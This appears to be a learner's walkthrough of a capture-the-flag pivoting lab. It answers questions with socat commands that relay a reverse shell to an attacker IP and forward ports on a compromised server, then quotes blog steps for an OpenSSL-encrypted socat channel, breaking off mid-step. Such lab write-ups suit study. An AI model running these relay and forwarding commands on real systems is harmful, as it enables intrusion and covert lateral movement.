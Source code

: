 If your Attacking IP is 172.16.0.200, how would you relay a reverse shell to TCP port 443 on your Attacking Machine using a static copy of socat in the current directory? 

```
Q2: Use TCP port 8000 for the server listener, and do not background the process.
A:  ./socat tcp-l:8000 tcp:172.16.0.200:443
```

**hint: ./socat tcp-l:LISTEN_PORT tcp:ATTACKING_IP:ATTACKING_PORT**

```
Q3: What command would you use to forward TCP port 2222 on a compromised server, to 172.16.0.100:22, using a static copy of socat in the current directory, and backgrounding the process (easy method)?
A: ./socat tcp-l:2222,fork,reuseaddr 172.16.0.100:22 &
```

**Hint easy method**
```
command: ./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &
```

Optional question  Try to create an encrypted port forward or relay using the OPENSSL options in socat. Task 7 of the shells room may help with this.

As i have no subcription so i google it and i found this link to create encripted connetion using socat

Link: https://blogs.query.ai/creating-a-secure-encrypted-channel-with-socat

And this article about encripted connection using socat they say:


### Creating an encrypted communication channel between two socat instances

For more serious purposes, such as creating an encrypted channel with two socat instances, we would also want to use OpenSSL. So first, let's create a certificate that is self-signed for your FQDN. Here is the cert generation process first:

```
$ openssl genrsa -out server.key 2048
$ openssl req -new -key server.key -x509 -days 365 -out server.crt
```

For this walkthrough, we will name it localhost. Then do this:

```
$ cat server.key server.cert > server.pem
$ chmod 0600 server.pem server.key
```

Now we are ready to run a secure SSL/TLS encrypted communication channel between two socat instances. One acts as an SSL server and one as the client, which the server prints out a command output. The client connects, reads the output on an encrypted channel, and then returns. This process is just one example of what we can achieve. You can also ask the client to read from standard input or echo what the client sends to store the client data on a file.

On a tmux split terminal type this:
